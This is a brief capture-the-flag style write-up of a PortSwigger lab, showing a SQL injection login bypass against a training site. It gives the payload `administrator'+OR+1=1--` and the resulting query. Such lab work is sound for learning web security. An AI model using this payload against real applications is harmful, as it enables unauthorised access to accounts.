 # Write-up: SQL injection vulnerability allowing login bypass

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-login-bypass>  
Difficulty: APPRENTICE  
  

## Lab description

![lab_description](img/1.png)

## Steps

### Enumeration

I checked out how the login works using interceptor and found out that the request is like
`&username=user&password=user`

### Exploit

To login as administrator without knowing the password, we need to make sure the request is always true. I used `username=administrator'+OR+1=1--` to login as administrator.

The result query should look like
```sql
SELECT * FROM users WHERE username = 'administrator' OR 1=1-- AND password = 'pass'
```

This login me as user administrator and after changing the email to anything solves the lab.

![alt text](img/2.png)